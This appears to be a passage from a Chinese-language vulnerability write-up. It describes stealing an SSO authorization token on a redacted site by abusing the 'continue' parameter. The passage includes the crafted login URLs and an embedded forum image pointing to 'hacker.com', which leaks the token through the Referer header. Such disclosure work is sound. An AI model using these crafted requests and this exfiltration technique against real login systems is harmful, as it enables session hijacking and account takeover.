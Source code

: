 最后说到`location`这个参数，一看他的值就知道是经过编码或者加密的，那么有两种情况，在本地进行加密/编码，反之在服务端。如果在服务端，那就束手无策了，除非你天赋异禀直接给猜解出来。那如果是在客户端，找到加密/编码函数，这个参数也能为你所用了。

在浏览器中刷新了一下请求，然后去关注一下所有加载的js脚本，我是通过以location为关键字搜到了该编码函数，函数只是简单的将参数进行编码。

来测试```location```参数的值，一样的步骤，只是这里再加了一次编码而已。

于是将`http://www.baidu.com/`编码一下赋值给`location`，访问
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://subdomain.AAA.com/SSOServerLogin&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
显示
![图片2.png](C:\Users\todaro\Desktop\kjkk\图片2.png)
还是有校验，而且因为校验失败，还要重新登`https://passport.AAA.com/`最后发现这里的校验和`continue`参数情况一模一样。

到现在这种情况，正面刚域名欺骗已经不可能了。回过头来，我们刚刚测试有发现`continue`的值可以是AAA.com下的任意子域名(还有一些指定的白名单跨域域名)，那么首先能想到的就是如果我们能找到AAA.com下的一个跳转漏洞，那么是不是就可以在跳转后把授权给传送出去呢？

于是找了几个子域名下的跳转：`http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d`这个链接访问后会跳转到百度，于是将其值给`continue`，确实是可以跳转，但是跳转后的结果却是
```
http://subdomain.AAA.com/topLocation?auth=xxxxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
```
浏览器再进而请求`http://subdomain.AAA.com/topLocation?location=687474703a2f2f742e77616e6d65692e636f6d2f`

看到没，授权值是/topLocation?auth=xxxx而不是`http://www.baidu.com/?auth=xxxx`或者是`http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d&auth=xxxx`，也就是说服务端只获取了?(问号)前面的值而后面的直接丢弃，导致跳转失效了，自然授权值也就传不出去了。

又重新找了几个通过参数进行跳转的跳转漏洞，结果都是?之后被截断，这条路也就行不通了，除非能找到一个不带?的跳转，这个就比较难了，直接放弃。

再想想还有什么办法获取到这个授权值呢？对了，网站在跨域请求网站内容时会通过referer来标记来源，如果当前发起请求的页面链接中存在授权值，则referer也会记录该值！

上面的跳转漏洞，由于授权值是返回给`http://subdomian.AAA.com/`，完了之后才对外跳转，referer是不含有该授权值的。

陆续又找了几个跳转漏洞，由于包含多重跳转，到最后referer带的都不是我们想要的数据了。

思路又断了，这时候又突然想到，在AAA.com域名下是有很多bbs的二级域名站点的，如果能在bbs站点插入对外的请求，那么是不是有机会把数据传出去呢？

刚好`bbs.subdomain.AAA.com`这个站点允许插入外链图片
![图片3.png](C:\Users\todaro\Desktop\kjkk\图片3.png)
插入的图片html代码如下
```
<img id="aimg_gyvvi" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" width="440" height="440" src="http://hacker.com/jpg/12345.jpg" border="0" alt="">
```
最后构造链接：
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
访问后Referer如下：
```
http://bbs.subdomain.AAA.com/thread-942592-1-1.html?auth=xxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
```
referer成功附带授权数据。
